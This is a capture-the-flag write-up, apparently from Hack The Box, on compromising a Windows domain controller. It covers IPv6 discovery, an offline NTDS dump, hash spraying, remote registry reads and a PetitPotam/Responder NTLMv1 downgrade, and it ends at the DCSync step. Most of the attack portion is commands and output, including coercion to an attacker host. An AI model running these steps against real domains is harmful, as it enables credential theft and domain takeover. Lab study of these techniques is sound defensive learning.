




APT-WriteUp
In this Windows Active Directory machine rated Insane, we'll compromise a Domain Controller starting from what appears to be a minimal attack surface, only two TCP ports open. The key insight is that the firewall only filters IPv4, leaving IPv6 wide open. From there, we exploit a leaked NTDS backup, perform a hash spray, abuse Remote Registry access, and ultimately weaponize an NTLMv1 downgrade to achieve full domain compromise. You will learn how to:
- Discover hidden IPv6 addresses via DCOM/OXID Resolver (MS-DCOM)
- Enumerate SMB shares anonymously and extract sensitive backups
- Crack encrypted ZIP archives with John the Ripper
- Dump domain credentials from
ntds.dit+SYSTEMhive offline - Validate domain users via Kerberos pre-authentication (Kerbrute)
- Perform NTLM hash spraying against a single valid user
- Read Windows Registry remotely via
reg.py(Impacket) without a shell - Capture NTLMv1 hashes using PetitPotam + Responder
- Crack NTLMv1 using rainbow tables (ntlmv1.com)
- Perform DCSync as a machine account to get the Administrator hash
🧰 Tools used: nmap, IOXIDResolver.py, smbclient.py, zip2john, john, secretsdump.py, kerbrute, reg.py, evil-winrm, PetitPotam.py, responder, hashcat.
Let's get started.
Port Scanning
We started with a full TCP SYN scan across all ports on the target IPv4 address.
sudo nmap --open -Pn -p- -sS -n -vvv 10.129.96.60
PORT STATE SERVICE REASON
80/tcp open http syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
Only two ports open, HTTP and MSRPC. This is suspicious for a Windows machine and strongly suggests a firewall is in play.
Service Enumeration
nmap -sVC -p80,135 10.129.96.60
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: Gigantic Hosting | Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
135/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
The web server is Microsoft IIS 10.0, hosting a site called "Gigantic Hosting". Wappalyzer confirms it's running on Windows Server, nothing immediately exploitable on the web side.

We also ran a UDP scan to check for SNMP:
SNMP is filtered. Dead end for now.
Discovering IPv6 via DCOM / IOXIDResolver
With only ports 80 and 135 open on IPv4, we know a firewall is blocking standard AD ports (445, 389, 88, etc.). However, Windows firewalls often forget to filter IPv6.
Port 135 always exposes the IOXIDResolver interface (99fcfec4-5260-101b-bbcb-00aa0021347a), which is part of the DCOM core. Unlike regular RPC endpoints, IOXIDResolver doesn't register itself in the Endpoint Mapper, it's always available directly on port 135.
Why doesn't it appear in rpcdump?
The rpcdump.py tool queries the Endpoint Mapper (EPM), which acts like a directory of registered services. IOXIDResolver is part of the DCOM kernel and never registers there it's always reachable directly.
How the attack works
The ServerAlive2() method of IOXIDResolver is completely unauthenticated and responds with all network interfaces (bindings) of the target, including IPv6 addresses you didn't know existed.
python3 IOXIDResolver.py -t 10.129.96.60
[*] Retrieving network interface of 10.129.96.60
Address: apt
Address: 10.129.96.60
Address: dead:beef::b885:d62a:d679:573f
Address: dead:beef::d84d:4773:b57f:bc13
Two IPv6 addresses revealed. We add them to /etc/hosts:
sudo sh -c 'echo "dead:beef::b885:d62a:d679:573f APT6.htb" >> /etc/hosts'
sudo sh -c 'echo "dead:beef::d84d:4773:b57f:bc13 APT6-2.htb" >> /etc/hosts'
Full Port Scan via IPv6
Now we scan the target over IPv6 using the -6 flag:
sudo nmap --open -Pn -p- -sS -n -vvv dead:beef::b885:d62a:d679:573f -6
PORT STATE SERVICE REASON
53/tcp open domain syn-ack ttl 63
80/tcp open http syn-ack ttl 63
88/tcp open kerberos-sec syn-ack ttl 63
135/tcp open msrpc syn-ack ttl 63
389/tcp open ldap syn-ack ttl 63
445/tcp open microsoft-ds syn-ack ttl 63
464/tcp open kpasswd5 syn-ack ttl 63
593/tcp open http-rpc-epmap syn-ack ttl 63
636/tcp open ldapssl syn-ack ttl 63
3268/tcp open globalcatLDAP syn-ack ttl 63
3269/tcp open globalcatLDAPssl syn-ack ttl 63
5985/tcp open wsman syn-ack ttl 63
9389/tcp open adws syn-ack ttl 63
47001/tcp open winrm syn-ack ttl 63
49664/tcp open unknown syn-ack ttl 63
49665/tcp open unknown syn-ack ttl 63
49666/tcp open unknown syn-ack ttl 63
49667/tcp open unknown syn-ack ttl 63
49669/tcp open unknown syn-ack ttl 63
49670/tcp open unknown syn-ack ttl 63
49673/tcp open unknown syn-ack ttl 63
49685/tcp open unknown syn-ack ttl 63
52410/tcp open unknown syn-ack ttl 63
All the expected Domain Controller ports are now visible. The IPv4 firewall was blocking everything, but IPv6 was completely unfiltered.
Service Enumeration over IPv6
nmap -sVC -p53,80,88,135,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49685,52410 dead:beef::b885:d62a:d679:573f -6
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Gigantic Hosting | Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-03-31 02:55:25Z)
135/tcp open msrpc Microsoft Windows RPC
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after: 2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +34s from scanner time.
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-03-31T02:56:39+00:00; +35s from scanner time.
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after: 2050-09-24T07:17:18
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after: 2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +34s from scanner time.
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=apt.htb.local
| Subject Alternative Name: DNS:apt.htb.local
| Not valid before: 2020-09-24T07:07:18
|_Not valid after: 2050-09-24T07:17:18
|_ssl-date: 2026-03-31T02:56:39+00:00; +35s from scanner time.
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49669/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49670/tcp open msrpc Microsoft Windows RPC
49673/tcp open msrpc Microsoft Windows RPC
49685/tcp open msrpc Microsoft Windows RPC
52410/tcp open msrpc Microsoft Windows RPC
Service Info: Host: APT; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: required
|_clock-skew: mean: -7m59s, deviation: 22m40s, median: 33s
| smb-os-discovery:
| OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
| Computer name: apt
| NetBIOS computer name: APT\x00
| Domain name: htb.local
| Forest name: htb.local
| FQDN: apt.htb.local
|_ System time: 2026-03-31T03:56:24+01:00
| smb2-time:
| date: 2026-03-31T02:56:27
|_ start_date: 2026-03-31T01:28:18
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.58 seconds
We're dealing with a Windows Server 2016 Domain Controller for the domain htb.local. The hostname is APT.
SMB Enumeration — Anonymous Share Access
nxc smb htb.local -u '' -p '' --shares
SMB dead:beef::b885:d62a:d679:573f 445 APT [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB dead:beef::b885:d62a:d679:573f 445 APT [+] htb.local\:
SMB dead:beef::b885:d62a:d679:573f 445 APT [*] Enumerated shares
SMB dead:beef::b885:d62a:d679:573f 445 APT Share Permissions Remark
SMB dead:beef::b885:d62a:d679:573f 445 APT ----- ----------- ------
SMB dead:beef::b885:d62a:d679:573f 445 APT backup READ
SMB dead:beef::b885:d62a:d679:573f 445 APT IPC$ Remote IPC
SMB dead:beef::b885:d62a:d679:573f 445 APT NETLOGON Logon server share
SMB dead:beef::b885:d62a:d679:573f 445 APT SYSVOL Logon server share```
Anonymous access is allowed and we have READ permission on a backup share. Let's download what's inside.
smbclient.py 'htb.local/':''@dead:beef::b885:d62a:d679:573f
# use backup
# ls
backup.zip 10650961 Thu Sep 24 04:31:03 2020
# get backup.zip
Cracking the Backup ZIP
The ZIP is password-protected. We extract its hash with zip2john and crack it with John the Ripper:
zip2john backup.zip > backup_hash
cat backup_hash -p
backup.zip:$pkzip2$3*1*1*0*8*24*9beb*9ac6*0f135e8d5f0<REDACTED_HASH>
After clean the hash we cracking the passwd.
john backup_hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED> (backup.zip)
1g 0:00:00:00 DONE (2026-03-31 00:15) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s 123456..dumbo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
Now we extract it:
unzip backup.zip
Archive: backup.zip
creating: Active Directory/
[backup.zip] Active Directory/ntds.dit password:
inflating: Active Directory/ntds.dit
inflating: Active Directory/ntds.jfm
inflating: registry/SECURITY
inflating: registry/SYSTEM
ls Active\ Directory/
ntds.dit ntds.jfm
ls registry/
SECURITY SYSTEM
We have the three files needed to dump the entire domain: ntds.dit, SYSTEM, and SECURITY.
Offline NTDS Dump with secretsdump.py
With ntds.dit + SYSTEM + SECURITY, we can extract all domain credentials offline without touching the live DC:
secretsdump.py -ntds "Active Directory/ntds.dit" -system registry/SYSTEM -security registry/SECURITY LOCAL
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x936ce5da88593206567f650411e1d16b
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] MACHINE.ACCMACHINE.ACC:plain_password_hex:34005b<REDACTED_HASH>
MACHINE.ACC: aad3b4<REDACTED_HASH>:b30027<REDACTED_HASH>
[*] DefaultPassword
(Unknown User):<REDACTED>
[*] DPAPI_SYSTEM
dpapi_machinekey:0x3e0d78<REDACTED_HASH>
dpapi_userkey:0xdcde3f<REDACTED_HASH>
[*] NLKM:734f34<REDACTED_HASH>
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 1733ad<REDACTED_HASH>
[*] Reading and decrypting hashes from Active Directory/ntds.dit
Administrator:500:aad3b4<REDACTED_HASH>:2b576a<REDACTED_HASH>:::
Guest:501:aad3b4<REDACTED_HASH>:31d6cf<REDACTED_HASH>:::
DefaultAccount:503:aad3b4<REDACTED_HASH>:31d6cf<REDACTED_HASH>:::
APT:1000:aad3b4<REDACTED_HASH>:b30027<REDACTED_HASH>:::
krbtgt:502:aad3b4<REDACTED_HASH>:727919<REDACTED_HASH>:::
jeb.sloan:3200:aad3b4<REDACTED_HASH>:9ea25a<REDACTED_HASH>:::
<1999 users total>
We found a cleartext password <REDACTED> in the LSA secrets, and 1999 domain user hashes. However, this is a backup from September 2020 — passwords may have changed since then. We need to figure out which users are still valid.
User Validation via Kerbrute
We try a password spray with <REDACTED> first,no luck. Since port 88 (Kerberos) is open, we use kerbrute to validate which users from the dump still exist in the domain:
./kerbrute_linux_amd64 userenum -d htb.local --dc apt6.htb users.txt
[+] VALID USERNAME: Administrator@htb.local
[+] VALID USERNAME: henry.vinson@htb.local
Done! Tested 1999 usernames (2 valid) in 1097.224 seconds
Only two valid users: Administrator and henry.vinson. The rest of the accounts from the 2020 backup no longer exist.
NTLM Hash Spray Against henry.vinson
We find henry.vinson's hash from the dump:
We test it directly, but it fails:
nxc smb apt6.htb -u 'henry.vinson' -H '<REDACTED_HASH>'
SMB dead:beef::b885:d62a:d679:573f 445 APT [*] Windows Server 2016 Standard 14393 x64 (name:APT) (domain:htb.local) (signing:True) (SMBv1:True) (Null Auth:True)
SMB dead:beef::b885:d62a:d679:573f 445 APT [-] htb.local\henry.vinson:<REDACTED_HASH> STATUS_LOGON_FAILURE
The hash from 2020 is no longer valid. But here's the key insight: maybe henry.vinson is now using a password that matches another user's hash from the old dump. We extract all 1999 NTLM hashes and spray each one against henry.vinson via Kerberos. Technical Note: We performed the hash spray via Kerberos Pre-Authentication instead of traditional SMB for two reasons: speed and stealth. Kerberos is significantly faster and often generates less noise in event logs (Event ID 4768 for Kerberos vs Event ID 4625 for SMB). Furthermore, it allows us to validate credentials by simply requesting a TGT, without needing to establish a full connection to the file system (SMB shares).
Wisp me on LinkedIn if you'd like to check out the script or discuss the logic!
awk -F ":" '/^[a-zA-Z0-9._-]+:[0-9]+:/ {print $4}' secretsdump.txt > hashes_ntlm.txt
python3 spray_henry.py hashes_ntlm.txt
[*] Probando 1999 hashes contra henry.vinson...
[+] ¡ÉXITO! Hash válido encontrado: <REDACTED_HASH>
Henry is reusing the NTLM hash of another user from the old dump. We now have valid credentials for him.
Remote Registry Access with reg.py
Henry's hash authenticates against Kerberos, but SMB and WinRM both return Access Denied, he doesn't have interactive login rights. However, there's another avenue: Remote Registry via RPC.
Windows administrators often forget to restrict Remote Registry access in GPOs, leaving it open as a way to read persistent configuration. If Henry has ever logged into this machine, his registry hive will be mounted under HKU.
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU
HKU\.DEFAULT
HKU\S-1-5-19
HKU\S-1-5-20
HKU\S-1-5-21-2993095098-2100462451-206186470-1105
HKU\S-1-5-21-2993095098-2100462451-206186470-1105_Classes
HKU\S-1-5-18
Henry's hive is mounted (S-1-5-21-...-1105). We enumerate the Software keys and find something unusual:
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem ← interesting!
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Microsoft
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Policies
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\RegisteredApplications
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Sysinternals
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\VMware, Inc.
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Wow6432Node
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\Classes
We found a custom application key. Let's read it:
reg.py -hashes :<REDACTED_HASH> htb.local/henry.vinson@apt6.htb query -keyName "HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem"
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
HKU\S-1-5-21-2993095098-2100462451-206186470-1105\Software\GiganticHostingManagementSystem
UserName REG_SZ henry.vinson_adm
PassWord REG_SZ <REDACTED>
The application stored credentials in plaintext in the registry. We have henry.vinson_adm's password.
Pentest tip: Whenever you have credentials but no shell, look for persistence and configuration storage: SMB shares, LDAP, and the Windows Registry. Third-party management software like this routinely stores credentials in
HKCU\Software\<AppName>.
Shell as henry.vinson_adm and user Flag
nxc winrm apt6.htb -u 'henry.vinson_adm' -p '<REDACTED>'
WINRM dead:beef::b885:d62a:d679:573f 5985 APT [*] Windows 10 / Server 2016 Build 14393 (name:APT) (domain:htb.local)
WINRM dead:beef::b885:d62a:d679:573f 5985 APT [+] htb.local\henry.vinson_adm:<REDACTED> (Pwn3d!)
evil-winrm -i apt6.htb -u 'henry.vinson_adm' -p '<REDACTED>'
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> type ..\Desktop\user.txt
<USER_FLAG>
Privilege Escalation — NTLMv1 Downgrade Attack
Finding the Attack Path via PowerShell History
Once I gained a shell as henry.vinson_adm, I started with basic enumeration to understand my environment.
Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> whoami /all
USER INFORMATION
----------------
User Name SID
==================== =============================================
htb\henry.vinson_adm S-1-5-21-2993095098-2100462451-206186470-1106
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
========================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users Alias S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label S-1-16-8192
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\henry.vinson_adm\Documents> net users
User accounts for \\
-------------------------------------------------------------------------------
Administrator DefaultAccount Guest
henry.vinson henry.vinson_adm krbtgt
Evil-WinRM* PS C:\Users\henry.vinson_adm> cmd.exe /c dir /S /A
Volume in drive C is System
Volume Serial Number is BF99-DE3E
Directory of C:\Users\henry.vinson_adm
09/24/2020 08:40 AM <DIR> .
09/24/2020 08:40 AM <DIR> ..
09/24/2020 08:40 AM <DIR> AppData
09/24/2020 08:40 AM <JUNCTION> Application Data [C:\Users\henry.vinson_adm\AppData\Roaming]
09/24/2020 09:17 AM <DIR> Contacts
09/24/2020 08:40 AM <JUNCTION> Cookies [C:\Users\henry.vinson_adm\AppData\Local\Microsoft\Windows\INetCookies]
10/23/2020 11:02 AM <DIR> Desktop
10/23/2020 10:39 AM <DIR> Documents
09/24/2020 09:17 AM <DIR> Downloads
09/24/2020 09:17 AM <DIR> Favorites
09/24/2020 09:17 AM <DIR> Links
09/24/2020 08:40 AM <JUNCTION> Local Settings [C:\Users\henry.vinson_adm\AppData\Local]
09/24/2020 09:17 AM <DIR> Music
09/24/2020 08:40 AM <JUNCTION> My Documents [C:\Users\henry.vinson_adm\Documents]
09/24/2020 08:40 AM <JUNCTION> NetHood [C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\Network Shortcuts]
03/31/2026 02:58 AM 262,144 NTUSER.DAT
<SNIP>
Directory of C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
11/10/2020 11:58 AM <DIR> .
11/10/2020 11:58 AM <DIR> ..
11/10/2020 11:58 AM 458 ConsoleHost_history.txt
1 File(s) 458 bytes
<SNIP>
Evil-WinRM* PS C:\Users\henry.vinson_adm> type C:\Users\henry.vinson_adm\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
$Cred = get-credential administrator
invoke-command -credential $Cred -computername localhost -scriptblock {Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" lmcompatibilitylevel -Type DWORD -Value 2 -Force}
Someone ran this as Administrator. The command sets lmcompatibilitylevel = 2, which enables NTLMv1 authentication. We verify it's still active:
Evil-WinRM* PS C:\Users\henry.vinson_adm> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name lmcompatibilitylevel
lmcompatibilitylevel : 2
PSPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
PSParentPath : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control
PSChildName : Lsa
PSDrive : HKLM
PSProvider : Microsoft.PowerShell.Core\Registry
Why does this matter?
NTLMv1 is architecturally broken. It relies on DES with a 56-bit key, meaning any captured NTLMv1 hash can be cracked in seconds via Rainbow Tables (like ntlmv1.com), regardless of how long or complex the password is. In contrast, NTLMv2 implements proper salted hashing, making it significantly harder to crack and impossible to decrypt using pre-computed tables.
The Downgrade Logic: Setting lmcompatibilitylevel = 2 tells Windows to send NTLMv1 responses but still accept NTLMv2 if requested by the server. By using Responder, we act as the "server" in this exchange and specifically request NTLMv1. This forces the client to downgrade its authentication to the weakest level, allowing us to capture a hash that is susceptible to rainbow table attacks.
With NTLMv1 enabled, the attack chain is: 1. PetitPotam — Coerce the Domain Controller to authenticate to our machine via MS-EFSRPC. 2. Responder — Capture the DC's NTLMv1 authentication response. 3. Rainbow tables — Submit the hash to ntlmv1.com for instant decryption, recovering the machine account password or NT hash.
Step 1 — Configure Responder with a Fixed Challenge
For the rainbow table attack to work, we need to capture the hash with a known, fixed challenge. By default Responder generates a random one per request, which would make rainbow table lookup impossible. We set it to 1122334455667788 in the config:

Step 2 — Force Authentication with PetitPotam
PetitPotam abuses the MS-EFSRPC protocol (EfsRpcOpenFileRaw) to make a target Windows machine authenticate against an attacker-controlled server — without needing admin rights in many cases:
python3 PetitPotam.py -u 'henry.vinson_adm' -p '<REDACTED>' -d 'htb.local' <ATTACKER_IP> apt6.htb
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
___ _ _ _ ___ _
| _ \ ___ | |_ (_) | |_ | _ \ ___ | |_ __ _ _ __
| _/ / -_) | _| | | | _| | _/ / _ \ | _| / _` | | ' \
_|_|_ \___| _\__| _|_|_ _\__| _|_|_ \___/ _\__| \__,_| |_|_|_|
_| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'
PoC to elicit machine account authentication via some MS-EFSRPC functions
by topotam (@topotam77)
Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN
Trying pipe lsarpc
[-] Connecting to ncacn_np:apt6.htb[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
sudo responder -I tun0 --lm -v
<SNIP>
[+] Listening for events...
[!] Error starting TCP server on port 53, check permissions or other servers running.
[SMB] NTLMv1 Client : 10.129.96.60
[SMB] NTLMv1 Username : HTB\APT$
[SMB] NTLMv1 Hash : APT$::HTB:<REDACTED_HASH>
Step 3 — Crack with Rainbow Tables
We tried hashcat with rockyou.txt first and it exhausted the wordlist without success. Machine account passwords are random and complex by design.
Instead, we use ntlmv1.com. Since we used the fixed challenge 1122334455667788, the site can look up the NT hash directly from precomputed rainbow tables. We submit the NTLMResponse portion and select Net-NTLMv1:

The result comes back instantly in the Tasks tab:

The NT hash of the APT$ machine account is <REDACTED_HASH>.
DCSync as APT$ — Administrator Hash
Machine accounts in AD have replication privileges. We use APT$'s NT hash to perform a DCSync and pull the Administrator's credentials directly:
